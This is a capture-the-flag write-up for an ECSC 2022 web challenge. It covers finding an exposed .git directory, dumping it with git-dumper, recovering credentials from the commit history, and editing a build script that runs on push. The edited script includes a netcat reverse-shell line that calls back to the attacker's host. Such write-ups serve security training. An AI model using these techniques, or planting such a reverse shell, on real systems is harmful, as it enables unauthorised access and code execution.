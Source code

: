 ```yaml
---
title:  "Glaciers of Switzerland"
author: "punshLineLama"
date:   "2022-09-15"
# Optional parameters
tags: ["web", "(open)ECSC 2022"]
coverImagePath: "img/chall.png"
---
```



![Image of Challenge](img/ecsc2022_chall.png)

## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`

![](img/ecsc2022_pic1.png)

There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:
![](img/ecsc2022_creds.png)

As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)


## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.
